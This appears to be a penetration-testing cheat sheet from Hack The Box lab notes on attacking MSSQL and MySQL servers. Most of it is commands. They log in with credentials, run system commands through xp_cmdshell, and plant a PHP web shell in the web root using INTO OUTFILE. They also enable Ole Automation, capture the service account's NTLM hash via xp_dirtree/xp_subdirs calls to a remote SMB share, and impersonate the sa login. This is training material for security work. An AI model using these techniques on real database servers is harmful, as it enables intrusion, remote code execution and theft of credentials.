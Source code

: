 #### connect to sql with sqlcmd (windows)
```cmd-session
C:\htb> sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```
#### connect to sql with sqlcmd (Linux)
```shell-session
Tachipy@htb[/htb]$ sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

#### mssqlclient.py


```shell-session
Tachipy@htb[/htb]$ mssqlclient.py -p 1433 julio@10.129.203.7 
```

#### SConnecting to the SQL Server using windows auth

```shell-session
Tachipy@htb[/htb]$ sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```

##### Execute CMD in MSSQL
##### XP_CMDSHELL

  XP_CMDSHELL

```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```
#### MySQL - Write Local File

```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
##### MySQL - Secure File Privileges

  MySQL - Secure File Privileges

```shell-session
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```

To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:

##### MSSQL - Enable Ole Automation Procedures

  MSSQL - Enable Ole Automation Procedures

```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

## Capture MSSQL Service Hash


```cmd-session
EXEC master..xp_dirtree '\\10.10.110.17\share\'
```
```mssql
EXEC master..xp_subdirs '\\10.10.15.229\share\'
```
#### Identify Users that We Can Impersonate

  Identify Users that We Can Impersonate

```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
```

#### Impersonating the SA User

```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
